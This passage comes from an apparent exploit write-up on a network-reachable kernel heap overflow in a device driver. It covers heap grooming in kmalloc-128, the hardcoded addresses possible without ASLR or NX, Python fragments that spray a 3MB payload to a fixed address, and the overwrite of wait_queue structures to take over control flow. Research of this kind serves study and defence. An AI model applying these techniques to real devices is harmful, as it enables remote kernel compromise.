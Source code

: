```c
  // ...
            if (!SoftwareBus_fillBuf(SbusConnection, AllocatedBuffer + 16, ReceivedSize))
```
 
Cool. But at this point, I was a bit out of my depth. I was able to overflow kmalloc-128 but didn't really know what type of useful objects I would be able to put there from over the network. After a bunch of trial and error I started to notice that if I was taking a small pause after the allocation of the buffer but before overflowing it, an interesting structure would be magically allocated fairly close from my buffer. To this day, I haven't fully debugged where it exactly came from but as this was my only lead I went along with it.
 
The target kernel doesn't have ASLR and doesn't have NX, so my exploit is able to hardcode addresses and execute the heap directly which was nice. I can also place arbitrary data in the heap using the various allocation functions I had reverse-engineered earlier. For example, triggering a 3MB large allocation always returned a fixed address where I could stage content. To get this address, I simply patched the driver binary to output the address on the real device after the allocation as I couldn't debug it.
```py
# (gdb) x/10dwx 0xffffffff8522a000
# 0x8522a000:     0xff510000      0x1000ffff      0xffff4433      0x22110000
# 0x8522a010:     0x0000000d      0x0000000d      0x0000000d      0x0000000d
# 0x8522a020:     0x0000000d      0x0000000d
addr_payload = 0x83c00000 + 0x10
 
# ...
 
def main(stdscr):
  # ...
  # Let's get to business.
  _3mb = 3 * 1_024 * 1_024
  payload_sprayer = SprayerThread(args.target, 'payload sprayer')
  payload_sprayer.set_length(_3mb)
  payload_sprayer.set_spray_content(payload)
  payload_sprayer.start()
  leaker.wait_for_one()
  sprayers.append(payload_sprayer)
  log(f'Payload placed @ {hex(addr_payload)}')
  y += 1
```
 
My final exploit, [Zenith](https://github.com/0vercl0k/zenith), overflows an adjacent `wait_queue_head_t.head.next` structure that is placed by the socket stack of the Linux kernel with the address of a crafted `wait_queue_entry_t` under my control (`Trasher` class in the exploit code). This is the definition of the structure:
 
```C
struct wait_queue_head {
  spinlock_t    lock;
  struct list_head  head;
};
 
struct wait_queue_entry {
  unsigned int    flags;
  void      *private;
  wait_queue_func_t func;
  struct list_head  entry;
};
```
 